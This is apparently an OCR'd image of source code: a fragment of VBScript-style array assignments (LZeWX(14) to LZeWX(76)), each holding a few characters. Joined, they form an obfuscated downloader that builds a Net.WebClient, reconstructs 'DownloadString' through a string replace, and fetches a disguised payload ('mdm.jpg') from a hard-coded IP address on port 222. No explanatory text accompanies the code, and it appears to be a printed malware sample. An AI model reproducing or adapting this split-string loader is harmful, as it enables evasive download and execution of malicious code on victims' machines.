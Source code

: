```shell
LZeWX(14) = "CT"
LZeWX(15) = " N"
LZeWX(16) = "eT"
LZeWX(17) = ".W"
LZeWX(18) = "';"
LZeWX(19) = "$B"
LZeWX(20) = "45"
LZeWX(21) = "6="
LZeWX(22) = "'e"
LZeWX(23) = "BC"
LZeWX(24) = "LI"
LZeWX(25) = "eN"
LZeWX(26) = "T)"
LZeWX(27) = ".D"
LZeWX(28) = "OW"
LZeWX(29) = "NL"
LZeWX(30) = "O'"
LZeWX(31) = ";["
LZeWX(32) = "BY"
LZeWX(33) = "Te"
LZeWX(34) = "[]"
LZeWX(35) = "];"
LZeWX(36) = "$C"
LZeWX(37) = "78"
LZeWX(38) = "9="
LZeWX(39) = "'V"
LZeWX(40) = "AN"
LZeWX(41) = "('"
LZeWX(42) = "'h"
LZeWX(43) = "tt"
LZeWX(44) = "p:"
LZeWX(45) = "//"
LZeWX(46) = "45"
LZeWX(47) = ".1"
LZeWX(48) = "26"
LZeWX(49) = ".2"
LZeWX(50) = "09"
LZeWX(51) = ".4"
LZeWX(52) = ":2"
LZeWX(53) = "22/m"
LZeWX(54) = "dm"
LZeWX(55) = ".j"
LZeWX(56) = "pg"
LZeWX(57) = "''"
LZeWX(58) = ")'"
LZeWX(59) = ".R"
LZeWX(60) = "eP"
LZeWX(61) = "LA"
LZeWX(62) = "Ce"
LZeWX(63) = "('"
LZeWX(64) = "VA"
LZeWX(65) = "N'"
LZeWX(66) = ",'"
LZeWX(67) = "AD"
LZeWX(68) = "ST"
LZeWX(69) = "RI"
LZeWX(70) = "NG"
LZeWX(71) = "')"
LZeWX(72) = ";["
LZeWX(73) = "BY"
LZeWX(74) = "Te"
LZeWX(75) = "[]"
LZeWX(76) = "];"
```